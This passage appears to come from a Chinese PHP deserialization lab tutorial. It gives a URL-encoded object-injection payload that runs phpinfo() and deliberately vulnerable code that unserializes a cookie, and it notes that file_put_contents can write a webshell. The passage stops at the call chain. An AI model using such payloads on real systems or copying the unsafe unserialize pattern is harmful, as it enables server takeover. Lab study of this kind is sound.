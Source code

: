 因为序列化后的字符串会在private，protected后面，变量名两侧添加%00，隐藏字符复制不了。

解决方法为生成payload时进行url编码：

~~~
echo urlencode(serialize(new Woniu()));
~~~

将生成的payload作为参数传入源码中：
~~~
code=O%3A5%3A%22Woniu%22%3A1%3A%7Bs%3A8%3A%22%00Woniu%00a%22%3BO%3A3%3A%22Vul%22%3A1%3A%7Bs%3A7%3A%22%00%2A%00data%22%3Bs%3A10%3A%22phpinfo%28%29%3B%22%3B%7D%7D
~~~

phpinfo（）执行成功，反序列化成功过。



### 实验二

目标源码：

~~~
<?php
class Template {
    var $cacheFile = "cache.txt";
    var $template = "<div>Welcome come %s</div>";
    function __construct($data = null) {
        $data = $this->loadData($data);
        $this->rander($data);
    }
    function loadData($data) {
        return unserialize($data);
        return [];
    }
    function createCache($file = null, $tpl = null) {
        $file = $file ?: $this->cacheFile;
        $tpl = $tpl ?: $this->template;
        file_put_contents($file,$tpl);
    }    
    function rander($data) {
        echo sprintf($this->template, htmlspecialchars($data['name']));
    }
    function __destruct() {
        $this->createCache();
    }
}
new Template($_COOKIE['data']);
?>
~~~

漏洞分析

输出点再file_put_contents()，可以写入木马；

调用链为 ：

